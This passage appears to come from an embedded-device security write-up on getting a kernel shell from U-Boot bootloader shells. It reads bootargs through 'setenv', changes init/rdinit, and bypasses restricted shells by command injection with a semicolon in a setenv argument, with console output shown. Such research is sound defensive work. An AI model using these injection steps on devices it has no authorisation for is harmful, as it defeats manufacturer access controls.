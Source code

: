 If the content of the environmental variable cannot be confirmed in this way, the "setenv" command can be used instead. Among the Bootloader Shell commands, the "setenv" command is a command that sets an environment variable, and the content of the set environment variable can be checked through the log output when the command is executed.

```bash
 $ printenv
Unknown command 'printenv' - try 'help'
 $ setenv bootargs $(bootargs)
console=ttyS0 root=/dev/mtdblock3 rootfstype=squashfs ro init=/linuxrc LX_MEM=0x3D000000 mma_heap=mma_heap_name0,miu=0,sz=0x6000000 mma_heap=mma_heap_low_memory,miu=0,sz=0xF000000,max_off=0x1E000000 resolution=DACOUT_1080P_60 mtdparts=nand0:0x140000@0x000000(param),4m(uboot),2m(env),49408k(romfs),2m(custom),15m(web),2m(logo),512k(dgs),41m(ext_usr),2m(config_fw),-(config)
```

After confirming the environmental variable, Kernel Shell can be obtained by changing the "init" or "rdinit" factor.

### 5.3. OS Command Injection(2)

Unlike the case where only limited commands can be executed, there are cases where no Bootloader Shell command works at all. In this case, only some specific commands, such as "debug" or "shell," can be executed, and authentication that only the manufacturer knows is required when entering the command.

```bash
Hit ctrl+u to stop autoboot:  0 
 $ help
 $ printenv
 $ debug
password : 
```

If the bootloader shell prevents the execution of the command, if there is a vulnerability in filtering the command, the filtering may be bypassed using command injection. As mentioned in 5.2, the "setenv" command outputs the execution result through the log, so if the "setenv" command is executable and command injection occurs, the execution result of other commands can be checked using semicolon(;).

```bash
 $ setenv ';help'
?       - alias for 'help'
bootm   - boot application image from memory
ddr     - ddr training function
getinfo - print hardware information
go      - start application at address 'addr'
help    - print command description/usage
md      - memory display
mii     - MII utility commands
mm      - memory modify (auto-incrementing address)
mw      - memory write (fill)
ping    - send ICMP ECHO_REQUEST to network host
printenv- print environment variables
reset   - Perform RESET of the CPU
run     - run commands in an environment variable
saveenv - save environment variables to persistent storage
setenv  - set environment variables
tftp    - tftp	- download or upload image via network using TFTP protocol
version - print monitor version
 $
```

